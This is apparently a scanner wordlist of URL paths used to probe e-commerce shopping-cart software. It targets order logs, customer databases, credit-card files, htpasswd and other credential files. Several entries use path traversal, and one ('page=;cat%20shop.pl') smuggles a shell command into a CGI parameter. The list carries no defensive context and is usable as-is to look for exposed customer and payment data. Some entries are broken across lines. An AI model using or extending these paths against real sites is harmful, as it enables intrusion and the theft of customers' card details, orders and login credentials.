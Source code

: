 /Admin_files/order.log
/orders/mountain.cfg
/cgi-sys/cart.pl
/scripts/cart.pl
/htbin/cart.pl
/productcart/database/EIPC.mdb
/shoponline/fpdb/shop.mdb
/config/datasources/myorder.mdb
/PDG_Cart/shopper.conf
/shopping/database/metacart.mdb
/bin/cart.pl
/cgi-bin/cart32.ini
/database/comersus.mdb
/cgi-local/medstore/loadpage.cgi?user_id=id&file=data/orders.txt
/cgi-bin/store/Admin_files/myorderlog.txt
/cgi-bin/orders.txt
/cgi-bin/store/Admin_files/your_order.log
/test/test.txt
/fpdb/shop.mdb
/cgibin/shop/orders/orders.txt
/shopadmin1.asp
/cgi-bin/shop.cgi
/cgi-bin/commercesql/index.cgi?page=../admin/manager.cgi
/cgi-bin/PDG_cart/card.txt
/shopper.cgi?preadd=action&key=PROFA&template=order1.log
/store/shopdbtest.asp
/log_files/your_order.log
/_database/expire.mdb
/HyperStat/stat_what.log
/cgibin/DCShop/auth_data/auth_user_file.txt
/htbin/orders/orders.txt
/SHOP/shopadmin.asp
/index.cgi?page=../admin/files/order.log
/vpshop/shopadmin.asp
/webcart/config
/PDG/order.txt
/cgi-bin/shopper.cgi
/orders/order.log
/orders/db/zzzbizorders.log.html
/easylog/easylog.html
/cgi-bin/store/Log_files/your_order.log
/cgi-bin/%20shopper.cgi?
preadd=action&key=PROFA&template=shopping400.mdb
/comersus_message.asp?
/orders/import.txt
/htbin/DCShop/auth_data/auth_user_file.txt
/admin/html_lib.pl
/cgi-bin/%20shopper.cgi?
preadd=action&key=PROFA&template=myorder.txt
/cgi-bin/DCShop/auth_data/auth_user_file.txt
/cgi-bin/shop.pl/page=;cat%20shop.pl
/cgi-bin/shopper?search=action&keywords=dhenzuser
%20&template=order.log
/HBill/htpasswd
/bin/shop/auth_data/auth_user_file.txt
/cgi-bin/cs/shopdbtest.asp
/mysql/shopping.mdb
/Catalog/config/datasources/Products.mdb
/trafficlog
/cgi/orders/orders.txt
/cgi-local/PDG_Cart/shopper.conf
/store/cgi-bin/Admin_files/expire.mdb
/derbyteccgi/shopper.cgi?
key=SC7021&preadd=action&template=order.log